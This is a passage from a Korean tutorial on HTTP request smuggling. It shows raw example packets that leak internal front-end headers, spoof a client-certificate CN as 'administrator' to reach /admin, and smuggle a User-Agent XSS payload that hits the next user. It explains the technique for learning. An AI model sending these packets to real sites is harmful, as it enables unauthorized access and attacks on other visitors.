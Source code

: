 아래와 같은 Front-end 응답 패킷을 확인할 수 있습니다.

```
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

## 04-03. 클라이언트 인증 우회

TLS Handshake의 일부로 서버는 인증서를 제공하여 클라이언트(브라우저)에 자신을 인증합니다. 이 인증서에는 등록된 호스트 이름과 일치해야 하는 CN(Common Name)이 포함되어 있습니다. 
클라이언트는 이를 사용하여 합법적인 서버와 통신하고 있는지 확인할 수 있습니다.

일부 사이트는 한 단계 더 나아가 클라이언트가 서버에 인증서를 제시해야 하는 상호 TLS 인증 형식을 사용합니다. 
이 경우 클라이언트의 CN은 액세스 제어 메커니즘의 일부로 사용될 수 있으며 백엔드 응용 프로그램에서 사용할 수 있는 사용자 이름  등 이와 유사한 경우가 많습니다.

```
GET /admin HTTP/1.1
Host: normal-website.com
X-SSL-CLIENT-CN: carlos
```

‘X-SSL-CLIENT-CN: carlos’ 와 같은 값은 Back-end 서버에 숨겨져 있으므로 쉽게 신뢰하도록 구현되어 있는 경우가 많습니다. 예를 들어 아래과 같은 Smuggling 패킷을 보내여 간단하게 우회할 수 도 있습니다.

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 64
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x
```

## 04-04. Reflected XSS 공격과 연계 악용

홈페이지에서 Reflected XSS 취약점이 발견된 경우, 사회공학적 수단을 이용해 URL에 접속하도록 유도하는 것이 아닌, Smuggling 패킷을 보내어 다음 요청 패킷을 전송하는 사용자에게 강제로 Reflected XSS 공격을 수행할 수도 있습니다. 특히, 헤더에서 XSS 공격이 발견된 경우에도 해당 헤더에 페이로드를 삽입하여 Smuggling 패킷을 보내면 다음 요청 사용자에게 XSS 공격이 유효할 수 있습니다.

‘User-Agent’에 XSS 취약점이 존재하는 경우, 아래와 같은 패킷을 보내여 다음 요청을 전송하는 사용자를 공격할 수 있습니다.

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```
